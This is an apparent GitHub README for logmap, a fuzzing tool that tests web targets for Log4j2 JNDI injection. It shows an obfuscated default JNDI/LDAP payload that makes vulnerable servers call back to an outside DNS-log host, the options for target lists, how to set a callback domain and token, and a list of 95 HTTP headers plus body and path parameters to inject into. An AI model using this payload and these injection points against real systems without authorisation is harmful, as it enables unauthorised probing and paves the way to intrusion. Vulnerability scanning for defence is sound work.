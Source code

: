 # logmap - Log4j2 jndi injection fuzz tool

Used for fuzzing to test whether there are log4j2 jndi injection vulnerabilities in header/body/path  
Use https://log.xn--9tr.com dnslog by default, If you want to use http://ceye.io, you need to modify the domain and token  
Manually edit line [#373](https://github.com/zhzyker/logmap/blob/main/logmap.py#L373) in logmap.py to modify:  
`args.ceye = ["xxxxxx.ceye.io", "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"]`  
to   
`args.ceye = ["1234567.ceye.io", "843fd6d58a8ebede756a2b991d321a5a"]`  

The default payload is `${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//DNS_LOG_DOMAIN/a}` You can customize at will, in line [#283](https://github.com/zhzyker/logmap/blob/main/logmap.py#L283)  

This is just a jndi injection fuzz tool, rce or others need yourself

# Use  
```bash
zhzy@debian:~/$ pip3 install -r requirements.txt
zhzy@debian:~/$ python3 logmap.py -h
```


![banner](https://user-images.githubusercontent.com/32918050/145970843-3d5522f6-0064-4464-b7f8-48efcd41ffbc.png)  

# Options
```bash
  -u URL, --url URL     Target URL (e.g. http://example.com )
  -f FILE, --file FILE  Select a target list file (e.g. list.txt )
  -d 1, --dns 1         Dnslog [1:log.xn--9tr.com, 2:ceye.io] default 1
  -p PAYLOAD            Custom payload (e.g. ${jndi:ldap://xx.dns.xx/} )
  -t 10                 Http timeout default 10s
  --proxy PROXY         Proxy [socks5/socks4/http] (e.g. http://127.0.0.1:8080)
  -h, --help            Show this help message and exit

```

# Config  
There are currently 95 fuzz headers  
```
Accept-Charset
Accept-Datetime
Accept-Encoding
Accept-Language
Ali-CDN-Real-IP
Authorization
Cache-Control
Cdn-Real-Ip
Cdn-Src-Ip
CF-Connecting-IP
Client-IP
Contact
Cookie
DNT
Fastly-Client-Ip
Forwarded-For-Ip
Forwarded-For
Forwarded
Forwarded-Proto
From
If-Modified-Since
Max-Forwards
Originating-Ip
Origin
Pragma
Proxy-Client-IP
Proxy
Referer
TE
True-Client-Ip
True-Client-IP
Upgrade
User-Agent
Via
Warning
WL-Proxy-Client-IP
X-Api-Version
X-Att-Deviceid
X-ATT-DeviceId
X-Client-IP
X-Client-Ip
X-Client-IP
X-Cluster-Client-IP
X-Correlation-ID
X-Csrf-Token
X-CSRFToken
X-Do-Not-Track
X-Foo-Bar
X-Foo
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-Host
X-Forwarded
X-Forwarded-Port
X-Forwarded-Protocol
X-Forwarded-Proto
X-Forwarded-Scheme
X-Forwarded-Server
X-Forwarded-Ssl
X-Forwarder-For
X-Forward-For
X-Forward-Proto
X-Frame-Options
X-From
X-Geoip-Country
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Http-Method-Override
X-HTTP-Method-Override
X-Http-Method
X-Http-Path-Override
X-Https
X-Htx-Agent
X-Hub-Signature
X-If-Unmodified-Since
X-Imbo-Test-Config
X-Insight
X-Ip
X-Ip-Trail
X-Leakix
X-Original-URL
X-Originating-IP
X-ProxyUser-Ip
X-Real-Ip
X-Remote-Addr
X-Remote-IP
X-Requested-With
X-Request-ID
X-True-IP
X-UIDH
X-Wap-Profile
X-WAP-Profile
X-XSRF-TOKEN
```
Some body and path  
You can also modify him to add your own body  
```
payload={}
user={}
pass={}
username={}
password={}
login={}
... ...
?id={}
?username={}
... ...
```
